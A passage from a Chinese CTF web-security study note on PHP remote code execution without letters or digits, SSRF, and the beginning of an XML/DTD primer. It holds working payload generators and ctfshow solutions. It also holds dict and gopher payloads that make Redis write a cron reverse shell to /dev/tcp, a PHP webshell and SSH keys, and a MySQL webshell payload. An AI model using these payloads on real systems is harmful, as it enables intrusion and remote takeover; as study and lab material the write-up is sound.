$myfile = fopen("or_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9a-z]/i';//根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);

```

```python
# -*- coding: utf-8 -*-

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("or_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)


```


#### 取反

采用的是不可见字符，不会触发正则

```php
<?php
//在命令行中运行

fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';

```


#### 自增

```
//测试发现7.0.12以上版本不可使用
//使用时需要url编码下
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
固定格式 构造出来的 assert($_POST[_]);
然后post传入   _=phpinfo();

```


#### 上传临时文件

```python
#coding:utf-8
import requests
url="http://xxx/test.php?code=?><?=`. /???/????????[@-[]`;?>"
files={'file':'cat f*'}
response=requests.post(url,files=files)
html = response.text
print(html)
```

#### 例题

[极客大挑战 2019]RCE ME

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

很显然过滤了大小写字母和数字，那就是现在所介绍的无字母数字

先看看行不行

取反phpinfo

那么payload

```
?code=(~%8F%97%8F%96%91%99%90)();
```


显然成立

但是由于输入长度受限制且查看diable_functions可以发现都被禁止

所以是不能命令执行的，采取一句话木马文件上传

```php
<?php
$a = 'assert';
$b = urlencode(~$a);
echo $b;
echo '<br>';
$c = '(eval($_POST[cmd]))';
$d = urlencode(~$c);
echo $d;
#(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6);
```


然后蚁剑连接

但是直接点开是为空

但是有一个readflag文件，显然是运行该文件获取flag，但直接运行不行，要通过蚁剑插件


### $(())的使用

```
先介绍知识吧
双小括号(())是Bash Shell中专门用来进行整数运算的命令，他的效率很高，
写法灵活，企业运维中常用的运算命令
通俗的讲，就是将数学运算表达式放在((和))之间
表达式可以只有一个，也可以有多个，多个表达式之间用，隔开
对于多个表达式的情况，以最后一个表达式的值作为整个(())命令的执行结果
可以使用$获取(())命令的结果，这和使用$获得变量值类似
可以在(())前加上$符号获取(())命令执行的结果，也即获取整个表达式的值，
以c=$((a+b))为例，即将a+b这个表达式的运算结果赋值给变量c
注意，类似于c=((a+b))的写法是错误的

前面是介绍(())的相关知识，现在来说(())的用法
$(())是0

$((~$(())))是-1  ----$((~0)) == -1

$(($((~$(())))$((~$(())))))是-2 --- $((-1-1)) == -2
```

#### 例题

ctfshow web57

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

题目提示flag in 36.php

所以我们需要构造$c = 36

```
c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```


### 复现

具体情况太多就拿一道简单基础题来说

ctfshow web29

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

并没有上面过滤，除了flag不准出现以外

先走一道phpinfo

```
?c=phpinfo();
```


显然命令执行成功且phpinfo没什么内容

那就ls一下看看

```
?c=system('ls');
```


那就是读取flag.php，但flag不出现，但是绕过姿势挺多的，就不多说了

```
?c=system('cat fla*.php');
```


### 后果

- 反弹shell，进入内网
- 查询文件内容和位置
- 执行各种系统命令

### 防范

- 输入验证
- 参数化查询
- 输出编码
- 最小权限原则
- 更新和维护
- 安全配置
- 监控和日志记录

## SSRF

### 原理

服务端提供了从外部服务获取数据的功能，但没有对参数做出过滤和限制，从而导致出现非法请求

主要在于curl和file_get_conten

### file协议

主要用于读取服务器本地文件，访问本地的静态资源

格式：file://文件绝对路径

```
file:///etc/passwd
file:///var/www/html/index.php
file:///usr/local/apache-tomcat/conf/server.xml
```

### dict协议

- 内网主机探测
- 开放端口探测
- 端口服务指纹探测
- 执行命令

注意：dict执行命令多行操作的命令时，只能一次执行单行，需分多次执行

格式：dict://ip:port          dict://ip:port/命令

```
一、探测端口和服务指纹
dict://127.0.0.1:22
dict://172.22.10.10:3306
dict://127.0.0.1:6379/info

二、dict协议攻击redis，写入定时任务，进行反弹shell
centos系统定时任务 的路径为：/var/spool/cron
debian系统定时任务路径为：/var/spool/cron/crontabs

dict://127.0.0.1:6379/config:set:dbfilename:root
dict://127.0.0.1:6379/config:set:dir:/var/spool/cron
dict://127.0.0.1:6379/set:test:"\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/10.10.10.10/1234 0>&1\n\n"
dict://127.0.0.1:6379/save

注意：若payload存在被转义或过滤情况，可利用16进制写入内容
dict://127.0.0.1:6379/set:test:"\n\n\x2a/1\x20\x2a\x20\x2a\x20\x2a\x20\x2a\x20/bin/bash\x20\x2di\x20\x3e\x26\x20/dev/tcp/10.10.10.10/1234\x200\x3e\x261\n\n"


三、dict协议攻击redis，写入webshell
dict://127.0.0.1:6379/config:set:dbfilename:test.php
dict://127.0.0.1:6379/config:set:dir:/var/www/html
dict://127.0.0.1:6379/set:test:"\n\n<?php @eval($_POST[x]);?>\n\n"
dict://127.0.0.1:6379/save
若存在过滤， 则利用16进制内容写入：
dict://127.0.0.1:6379/set:test:"\n\n\x3c\x3f\x70\x68\x70\x20\x40\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x78\x5d\x29\x3b\x3f\x3e\n\n"
 
 
 四、dict攻击redis，写入ssh公钥
 和定时任务相似

```

### gopher协议

一般由于攻击redis，mysql，fastcgi，smtp等服务

格式：gopher://ip:port/_TCP/IP数据流

注意：

- gopher协议数据流中，url编码使用%0d%0a替换字符串中的回车换行
- 数据流末尾使用%0d%0a代表消息结束

#### gopherus工具

- mysql：若用户没有密码保护，可以转存其数据库，也可以在其系统中放置恶意文件

  ```
  gopherus --exploit mysql
  ```

- PostgreSQL：如果用户没有密码保护，您可以转储他的数据库，也可以将恶意文件放入他的系统中

  ```
  gopherus --exploit postgresql
  ```

- FastCGI：如果端口 9000 开放且没有安全性，那么您就可以获得 RCE

  ```
  gopherus --exploit fastcgi
  它仅要求受害者系统中必须存在的文件（最好是 .php 文件），顺便说一下，我们有一个默认文件。
  ```

- Redis: 如果 redis 端口6379开放，那么我们可以覆盖系统中的文件，这太危险了。
  所以你可以得到两样东西：
  a. 反向 Shell
  b. PHP Shell

  ```
  gopherus --exploit redis
  ```

- Zabbix：如果端口 10050 开放，`EnableRemoteCommands = 1`那么您就可以在受害系统上运行 shell 命令

  ```
  gopherus --exploit zabbix
  ```

- Memcached：主要用于存储序列化数据，但当需要对这些数据进行反序列化时，就会出现已知漏洞，如 PHP 反序列化问题、Python-Pickle 反序列化问题、Ruby-Marshal 反序列化问题，这些漏洞可能会导致 RCE。
  因此，我为它们分别创建了不同的脚本，还创建了一个用于转储 Memcached 内容的脚本

  ```
  gopherus --exploit pymemcache
  gopherus --exploit rbmemcache
  gopherus --exploit phpmemcache
  gopherus --exploit dmpmemcache
  ```

- SMTP：如果端口 25 开放并且我们可以访问它，那么我们就可以作为受害者用户向任何人发送消息，因此此工具将生成 gopher 有效负载来发送邮件

  ```
  gopherus --exploit smtp
  ```

#### gopher攻击redis

先了解redis协议数据流格式

数据流格式中CRLF表示就是\r\n

```
*<参数数量> CR LF
$<参数1的字节数量> CR LF
<参数1的数据> CR LF
...
$<参数N的字节数量> CR LF
<参数N的数据> CR LF
```

举个例

```
*4 ：表示4个参数config set dir /var/www/html
$6 ：表示每个参数的字节长度config长度为6
config
$3
set
$3
dir
$13
/var/www/html
```

ok，那么就可以开始攻击redis服务

这里以ctfshow ssrf web360来说明

探测ssrf以及redis服务，这一步就省了，因为就是

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?> 
```

使用file协议读取文件内容

```
url=file:///etc/passwd
```


 使用dict协议探测开放端口


发现6379也就是redis端口开放

然后判断redis服务有无身份验证，发现redis存在未授权访问

```
url=dict://127.0.0.1/6379/info
```


那就继续使用工具生成payload


记得将_后面的内容在编码一次

然后就会存在一个shell.php

然后要么命令执行要么蚁剑连接

#### 使用gopher协议ssh公钥

```
set 1 "\n\n\nid_rsa.pub\n\n\n\n"
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
quite
```

gopher协议数据流写入操作

```
gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$576%0d%0a%0a%0a%0assh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHSdAmmBYRnUrfOOO0N0Y/fKCLHEqt8aoc3pQPfAKStDL12rlPlf0nmkzQmPcHoHBKW6AEqb2QXWiB2TQFJTBdMXThHdZe4RzN5pLPPlqUg6dZZQhIT0/La+POIyRRVRld+8vwDw1bNpWcnlNPxf77LS9yJxQZzub6o7OWL/w2xWLexSQAYUQ9mflz4qluV+/M4iVRuZ3FNzqDWgeIziDCUaJydBpO1cisMj9TWkXCmGaj5hl1WsrffaIjsdHO6wbrZIERGh/3HDpwXlsVXc2+m9Nyxalh4qeGFVG/Fso7APhVcAfhA3lkNOTwySk+sss6JE2ic3slvIO2zXj1wI/IHMPXNb2nhnVW+WRSDp9OAcDxdLTJK0k2pVlq2yi/dWUjrcZBP3LV9pnb5ASrKmhBzxkqSPnrBhyp55qawKW2rnCeHSg9gMt/OBlMKrGnroZj+w9scuie5OxDy/7Vvr7l8vq2IbzBoWEd5d4dxCDpmtXZS/yEnIo5Y9IIQJNuOvs= root@mk50%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$11%0d%0a/root/.ssh/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$15%0d%0aauthorized_keys%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```

原始内容

```
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$576
 
 
 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHSdAmmBYRnUrfOOO0N0Y/fKCLHEqt8aoc3pQPfAKStDL12rlPlf0nmkzQmPcHoHBKW6AEqb2QXWiB2TQFJTBdMXThHdZe4RzN5pLPPlqUg6dZZQhIT0/La+POIyRRVRld+8vwDw1bNpWcnlNPxf77LS9yJxQZzub6o7OWL/w2xWLexSQAYUQ9mflz4qluV+/M4iVRuZ3FNzqDWgeIziDCUaJydBpO1cisMj9TWkXCmGaj5hl1WsrffaIjsdHO6wbrZIERGh/3HDpwXlsVXc2+m9Nyxalh4qeGFVG/Fso7APhVcAfhA3lkNOTwySk+sss6JE2ic3slvIO2zXj1wI/IHMPXNb2nhnVW+WRSDp9OAcDxdLTJK0k2pVlq2yi/dWUjrcZBP3LV9pnb5ASrKmhBzxkqSPnrBhyp55qawKW2rnCeHSg9gMt/OBlMKrGnroZj+w9scuie5OxDy/7Vvr7l8vq2IbzBoWEd5d4dxCDpmtXZS/yEnIo5Y9IIQJNuOvs= root@mk50
 
 
 
 
*4
$6
config
$3
set
$3
dir
$11
/root/.ssh/
*4
$6
config
$3
set
$10
dbfilename
$15
authorized_keys
*1
$4
save
*1
$4
quit
```


使用vps进行ssh登录

```
ssh -i /root/.ssh/id_rsa root@ip
```

#### gopher攻击mysql

mysql客户端连接并登陆服务器存在两种情况：需要密码认证以及无密码认证

- 需要密码：使用挑战应答模式，服务器先发送salt然后客户端使用salt加密密码然后验证
- 无需密码：直接发送tcp/ip数据包即可

**在ssrf实际利用mysql服务过程中，一般是攻击无密码验证的mysql服务**

gopher打mysql，就是利用gopher协议传shell到mysql中，**使用gopher协议可以执行sql语句，进而写马操作**

通过dict协议获取mysql服务带你看，然后使用gopherus工具生成mysql的oaload

前提条件

- 知道网站路径
- 当前用户对数据库具有执行权限

说了这么多继续举例

ctfshow web359

抓包后很明显能看到ssrf点

那就启动gopherus，写入一句话木马


```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4b%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%63%6d%64%27%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%32%2e%70%68%70%27%3b%01%00%00%00%01
```

再将_后内容二次编码

```
gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%254b%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2522%253c%253f%2570%2568%2570%2520%2540%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2527%2563%256d%2564%2527%255d%2529%253b%253f%253e%2522%2520%2569%256e%2574%256f%2520%256f%2575%2574%2566%2569%256c%2565%2520%2527%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%2532%252e%2570%2568%2570%2527%253b%2501%2500%2500%2500%2501
```


依旧是执行命令或者连接蚁剑

#### 攻击factcgi

当端口9000（默认端口）暴露在外网时，我们可以伪造fastcgi与后端语言之间的协议报文来进行相关配置修改和一系列攻击。当未暴露在公网时，我们可以通过ssrf进行相同的操作。


### 过滤绕过

#### 更改IP地址写法

通过正则匹配方式过滤掉内网IP，比如

```
^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$
^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
```

那么就可以采取改写IP进行绕过，比如192.168.0.1可以被写成

- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0XA8.0.1

- 10进制整数格式：3232235521

- 16进制整数格式：0xC0A80001

- 合并后两位：1.1.278 / 1.1.755

- 合并后三位：1.278 / 1.755 / 3.14159267

- 缺省模式

  ```
  缺省模式：127.0.0.1写成127.1
  CIDR：url=http://127.127.127.127/flag.php
  url=http://0/flag.php
  url=http://0.0.0.0/flag.php
  ```

  

另外IP中的每一位，各个进制可以混用

访问改写后的IP地址，Apache会报400 Bad Request，但Nginx、Mysql等其他服务仍能正常工作

此外0.0.0.0可以直接访问到本地

#### 使用解析到内网的域名

如果服务端没有先解析IP再过滤内网地址，那么就可以使用localhost等解析到内网的域名

此外xip.io提供一个方便服务，中国网站的子域名会解析到对应的IP，如192.168.0.1.xip.io，解析到192.168.0.1

#### 利用解析URL出现的问题

如果对访问的url进行解析，并对解析后的host地址进行过滤，那么就会有对url参数解析不当，导致可以绕过过滤

比如 `http://www.baidu.com@192.168.0.1/` 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容

#### 利用跳转

如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用跳转的方式来进行绕过。

可以使用如 http://httpbin.org/redirect-to?url=http://192.168.0.1 等服务跳转，但是由于URL中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，可以通过短地址的方式来绕过。

常用的跳转有302跳转和307跳转，区别在于307跳转会转发POST请求中的数据等，但是302跳转不会。

#### 通过各种非HTTP协议

如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

```
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 `file:///path/to/file` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 `file:///d:/1.txt` 来访问D盘中1.txt的内容。

#### DNS Rebinding

一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就禁止该次请求。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。

#### 利用IPv6

有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如 `[::]` `0000::1` 或IPv6的内网域名来绕过过滤。

#### 利用IDN

一些网络访问工具如Curl等是支持国际化域名（Internationalized Domain Name，IDN）的，国际化域名又称特殊字符域名，是指部分或完全使用特殊的文字或字母组成的互联网域名。

在这些字符中，部分字符会在访问时做一个等价转换，例如 `ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ` 和 `example.com` 等同。利用这种方式，可以用 `① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩` 等字符绕过内网限制。

### 对于以上绕过举个例子

ctfshow web354

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

根据过滤可知，改写ip方式显然不行了

#### 其一解析成127.0.0.1

```
http://sudo.cc/该域名指向127.0.0.1
url=http://sudo.cc/flag.php
```

#### 其二302跳转

在自己网站页面添加

```php
<?php
header("Location:http://127.0.0.1/flag.php");

```

重定向到127

#### 其三 DNS-Rebinding

又是一个熟悉的网址http://ceye.io/profile


在DNS Rebinding中绑定127.0.0.1

### 危害

- 读取本地文件
- 探测内网存活主机
- 探测开放端口
- 攻击各种服务
  - MySQL（端口 3306）
  - PostgreSQL（端口-5432）
  - FastCGI（端口 9000）
  - Memcached（端口 11211）
    - 如果存储的数据通过以下方式进行反序列化：
      - Python
      - 红宝石
      - PHP

  - Redis（端口-6379）
  - Zabbix（端口 10050）
  - SMTP（端口 25）


### 防范

- 过滤返回的信息
- 统一错误信息
- 限制请求的端口
- 禁止不常用的协议
- 对DNS Rebinding，考虑使用DNS缓存或者Host白名单

## xml(XXE和Xpath注入)

在介绍这些之前先对xml做出介绍

### xml

基本格式

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!--xml文件的声明-->
<bookstore>                                        <!--根元素-->
<book category="COOKING"><!--bookstore的子元素，category为属性-->
<title>Everyday Italian</title>   <!--book的子元素，lang为属性-->
<author>Giada De Laurentiis</author>          <!--book的子元素-->
<year>2005</year>                             <!--book的子元素-->
<price>30.00</price>                          <!--book的子元素-->
</book>                                        <!--book的结束-->
</bookstore>                              <!--bookstore的结束-->
```

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>

称为XML prolog，用于声明XML文档的版本或编码，是可选的，必须放在文档开头。standalone值时yes时候表示DTD仅用于验证文档结构，从而外部实体将被禁用，但默认是no，而且有些parser会直接忽略这一项

基本语法

```
所有XML元素都需有关闭标签
XML标签对大小写敏感
XML必须正确嵌套
XML文档必须有根元素
XML的属性值须加引号
```

若多个字符都需要转义，则可以将这些内容存放到CDATA里面

```
<![CDATA[ 内容 ]]>
```

### DTD

#### DTD基本概念

XML文档有自己一个格式规范，有DTD控制，用来为XML文档定义语义约束，可以嵌入在XML文档中（内部声明），也可以独立的放在另外一个单独文件中（外部引用）；将一些特殊字符和可复用代码段自定义为实体

#### 实体引用

XML元素以形如<tag>foo</tag>的标签开始和结束，若元素内容出现如<的特殊字符，解析就会失败，为了避免此种情况，XML用实体引用替换特殊字符。XML预定义5个实体引用，即用

```java
&lt; &gt; &amp; &apos; &quot; 替换 < > & ' "
```

实体引用类似宏定义和文件包含的效果，而自定义实体引用就叫做DTD

#### DTD的引入方式

DTD可以在XML文档内部声明，也可以在外部声明

##### 内部DTD

使用内部dtd文件，即将约束规则定义在xml文档中

```xml
<!DOCTYPE 根元素名称 [元素声明]>
```

示例代码

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE note [<!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)>
<!--定义note元素有四个元素-->
<!ELEMENT to (#PCDATA)>
<!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)>
<!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)>
<!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)>
<!--定义body元素为”#PCDATA”类型-->
]>
<note>
<to>Y0u</to>
<from>@re</from>
<head>v3ry</head>
<body>g00d!</body>
</note>

```

##### 外部DTD

引入外部DTD文件

```xml-dtd
<!DOCTYPE 根元素名称 SYSTEM "dtd路径">
```

使用外部的dtd文件（网络上dtd文件）

```xml-dtd
<!DOCTYPE 根元素 PUBLIC "DTD名称" "DTD文档的URL">
```

当使用外部DTD时，通过如下语法引入

```xml-dtd
<!DOCTYPE root-element SYSTEM "filename">
```

示例代码

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root-element SYSTEM "test.dtd">
<note>
<to>Y0u</to>
<from>@re</from>
<head>v3ry</head>
<body>g00d!</body>
</note>
```

test.dtd

```xml-dtd
<!ELEMENT to (#PCDATA)>
<!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)>
<!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)>
<!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)>
<!--定义body元素为”#PCDATA”类型-->
```

#### PCDATA

PCDATA的意思是被解析的字符数据。PCDATA是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。文本中的标签会被当作标记来处理，而实体会被展开。 被解析的字符数据不应当包含任何&，<，或者>字符，需要用& < >实体来分别替换。

#### CDATA

CDATA意思是字符数据，CDATA 是不会被解析器解析的文本，在这些文本中的标签不会被当作标记来对待，其中的实体也不会被展开。

#### DTD元素


#### DTD属性

属性声明语法

```xml-dtd
<!ATTLIST 元素名称 属性名称 属性类型 默认值>
```

DTD实例

```xml-dtd
<!ATTLIST payment Luckey CDATA "Q">
```

XML实例

```xml-dtd
<payment Luckey="Q" />
```

属性类型的选项


默认属性值可使用下列值


#### DTD实体

实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可在内部外部声明

按实体有无参分类，实体分为一般实体和参数实体

- 一般实体声明

  ```
  <!ENTITY 实体名称 "实体内容">
  ```

  - 引用一般实体方法：&实体名称
  - 可以在DTD中引用，可以在XML中引用，可以在声明前引用，还可以在实体声明内部引用

- 参数实体声明

  ```
  <!ENTITY % 实体名称 "实体内容">
  ```

  - 引用方法：%实体名称
  - 只能在DTD中引用

按实体使用方式分类

- 内部实体

